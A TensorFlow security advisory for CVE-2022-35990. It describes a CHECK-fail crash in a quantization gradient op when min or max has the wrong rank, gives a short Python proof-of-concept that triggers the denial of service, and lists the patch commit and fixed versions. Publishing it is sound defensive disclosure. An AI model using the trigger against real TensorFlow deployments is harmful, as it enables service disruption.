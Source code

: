 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-130.md
## TFSA-2022-130: `CHECK` fail in `FakeQuantWithMinMaxVarsPerChannelGradient`

### CVE Number
CVE-2022-35990

### Impact
When `tf.quantization.fake_quant_with_min_max_vars_per_channel_gradient` receives input `min` or `max` of rank other than 1, it gives a `CHECK` fail that can trigger a denial of service attack.
```python
import tensorflow as tf
arg_0=tf.random.uniform(shape=(1,1), dtype=tf.float32, maxval=None)
arg_1=tf.random.uniform(shape=(1,1), dtype=tf.float32, maxval=None)
arg_2=tf.random.uniform(shape=(1,1), dtype=tf.float32, maxval=None)
arg_3=tf.random.uniform(shape=(1,1), dtype=tf.float32, maxval=None)
arg_4=8
arg_5=False
arg_6=None
tf.quantization.fake_quant_with_min_max_vars_per_channel_gradient(gradients=arg_0, 
            inputs=arg_1, min=arg_2,  max=arg_3, num_bits=arg_4, 
            narrow_range=arg_5, name=arg_6)
```

### Patches
We have patched the issue in GitHub commit [f3cf67ac5705f4f04721d15e485e192bb319feed](https://github.com/tensorflow/tensorflow/commit/f3cf67ac5705f4f04721d15e485e192bb319feed).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 
 - 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology
 - Neophytos Christou, Secure Systems Labs, Brown University
